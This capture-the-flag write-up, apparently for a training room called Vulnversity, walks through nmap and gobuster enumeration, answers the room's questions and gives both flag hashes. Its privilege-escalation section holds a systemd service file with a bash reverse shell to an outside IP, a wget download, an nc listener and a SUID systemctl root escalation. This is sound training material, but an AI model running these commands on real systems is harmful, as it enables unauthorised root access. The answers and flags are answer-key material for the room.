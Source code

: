 ## Reconnaissance 

> nmap scan fof the machine
cmd : nmap -sV 10.10.26.46

'''
Starting Nmap 7.92 ( https://nmap.org ) at 2022-03-16 07:42 EDT
Nmap scan report for 10.10.26.46
Host is up (0.20s latency).
Not shown: 994 closed tcp ports (conn-refused)
PORT     STATE SERVICE     VERSION
21/tcp   open  ftp         vsftpd 3.0.3
22/tcp   open  ssh         OpenSSH 7.2p2 Ubuntu 4ubuntu2.7 (Ubuntu Linux; protocol 2.0)
139/tcp  open  netbios-ssn Samba smbd 3.X - 4.X (workgroup: WORKGROUP)
445/tcp  open  netbios-ssn Samba smbd 3.X - 4.X (workgroup: WORKGROUP)
3128/tcp open  http-proxy  Squid http proxy 3.5.12
3333/tcp open  http        Apache httpd 2.4.18 ((Ubuntu))
Service Info: Host: VULNUNIVERSITY; OSs: Unix, Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 67.64 seconds

'''

>> Scan the box, how many ports are open?
=> 6

>> What version of the squid proxy is running on the machine?
=> 3.5.12

>> How many ports will nmap scan if the flag -p-400 was used?
=> 400

>>Using the nmap flag -n what will it not resolve?
=> dns

>>What is the most likely operating system this machine is running?
=> ubuntu

>>What port is the web server running on?
=> 3333

## Locating directories using GoBuster 

scanning the target with gobuster for all the directories

cmd : gobuster dir -u http://10.10.26.46:3333 -w /usr/share/wordlists/dirb/common.txt

>> What is the directory that has an upload form page?
=> /internal/

## Compromise the webserver 

>> Try upload a few file types to the server, what common extension seems to be blocked?
=> .php

>> What is the name of the user who manages the webserver?
=> bill

>> What is the user flag?
=> 8bd7992fbe8a6ad22a63361004cfcedb

searching for SUID set files
cmd 1 : find / -perm 4000
cmd 2 : find / -user root -perm 4000 -print 2 > /dev/null

>>On the system, search for all SUID files. What file stands out?
=> /bin/systemctl

creating a new service to run

"""
[Unit]
Description=root

[Service]
Type=simple
User=root
ExecStart=/bin/bash -c 'bash -i >& /dev/tcp/10.18.67.210/4444 0>&1'

[Install]
WantedBy=multi-user.target


"""
then start the server on local machine and put the service file into a shareble servers folder

goto temp directory in remote machine
in the remote shell : wget http://<ip of local machin>/file_path
start the netcat in local machine : nc -lvnp 4444 
creating the service : systemctl enable /tmp/root.service  
starting the service in remote machine : systemctl start root

then local netcat should received a connecting with root shell access.

>>Become root and get the last flag (/root/root.txt)
=> a58ff8579f0a9270368d33a9966c7fd5











